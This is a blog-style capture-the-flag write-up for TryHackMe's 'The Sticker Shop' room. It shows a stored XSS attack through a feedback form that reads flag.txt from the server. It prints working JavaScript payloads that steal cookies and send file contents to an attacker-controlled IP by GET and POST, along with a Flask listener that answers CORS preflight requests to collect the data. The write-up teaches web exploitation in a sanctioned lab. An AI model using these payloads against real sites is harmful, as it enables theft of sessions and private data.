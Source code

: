 ```yaml
---
title: "The Sticker Shop"
date: 2024-11-29T16:02:41-06:00
draft: false
tags:
- THM
- XSS
- Web Exploitation
---
```


![The Sticker Shop](/img/the_sticker_shop/the_sticker_shop.png#center)

### Description
[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-rated challenge on Tryhackme. We exfiltrate ```flag.txt``` from the web server through a XSS attack.


### Walkthrough
We are told that we need to read the flag at ```http://10.10.102.204:8080/flag.txt```. However, visiting the URL, we are met with a 401 Unauthorized message, meaning we are not authenticated to view the file.

![Direct access 401 forbidden](/img/the_sticker_shop/401.png)

If we backtrack to the webapp's homepage, we see that there is a page for submitting feedback where we can presumably send content to the sticker shop staff. This might be our way in.

![](/img/the_sticker_shop/feedback.png)

I started by sending a simple XSS payload to attempt to exfiltrate user cookies.

```html
<script>new Image().src="http://10.13.48.55/?c="+document.cookie</script>
```

```
┌──(kali㉿kali)-[/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.102.204 - - [29/Nov/2024 19:56:47] "GET /?c= HTTP/1.1" 200 -
10.10.102.204 - - [29/Nov/2024 19:56:58] "GET /?c= HTTP/1.1" 200 -
```

Unfortunately, this does not work. The webapp may have some sort of defense mechanism (e.g. HttpOnly). Heck, it may not be using cookies at all. Without further information, it will be difficult to obtain any account secrets, if they exist in the first place. We need to focus on directly accessing ```flag.txt``` through our XSS payload instead. 

A quick and dirty way of doing this would be embedding ```flag.txt```'s contents into a query string. Below is a payload that reads ```flag.txt``` on the server side and sends the data back to us with a GET request.

```html
<script>
    function sendData(data) {
        const url = new URL("http://10.13.48.55");
        url.searchParams.append("data", data);
        fetch(url)
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data);
        })
        .catch(error => console.error('Error:', error));
</script>
```

![Quick and dirty GET flag](/img/the_sticker_shop/flag_get.png)

But what if you want to read a file that is much larger, or you don't want the data to be visible in the URL, perhaps for greater stealth? In that case, you would be better off using POST instead of GET.

```html
<script>
    function sendData(data){
        fetch("http://10.13.48.55", {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(data)
        })
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data)
        })
</script>
```

The problem is that Python's simple HTTP server only supports GET and HEAD requests, and the sticker website is sending a preflight request, so netcat is out of the question as well...

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.102.204] 52614
OPTIONS / HTTP/1.1
Host: 10.13.48.55
Connection: keep-alive
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: http://127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

We need to respond appropriately in order to receive the POST request containing ```flag.txt```. Specifically, we need to respond with the correct ```Access-Control-Allow-Origin```, ```Access-Control-Allow-Methods```, and ```Access-Control-Allow-Headers``` headers.

```
Access-Control-Allow-Origin: Specifies what domains are allowed to access a resource.
Access-Control-Allow-Methods: Indicates which HTTP methods are allowed.
Access-Control-Allow-Headers: Represents the HTTP headers that are permitted.
```

Now to whitelist any host[^1], the HTTP POST and OPTIONS, as well as the Content-Type header. I spun up a Flask server to do this:

[^1]: The request from flag shop comes from a random high port and there is no built-in method in CORS for wildcard port matching.

```python
from flask import Flask, request


app = Flask(__name__)

@app.route('/', methods=['POST', 'OPTIONS'])
def handler():
    if request.method == 'OPTIONS':
        headers = {
                'Access-Control-Allow-Origin' : '*',
                'Access-Control-Allow-Methods' : 'POST, OPTIONS',
                'Access-Control-Allow-Headers' : 'Content-Type'
        }
        return '', 200, headers

    elif request.method == 'POST':
        data = request.get_json()
        print(data)
        return '', 200

    return '', 405

if __name__ == '__main__':
    app.run()
```

And now, we should successfully receive our flag.

![POST flag](/img/the_sticker_shop/flag.png)
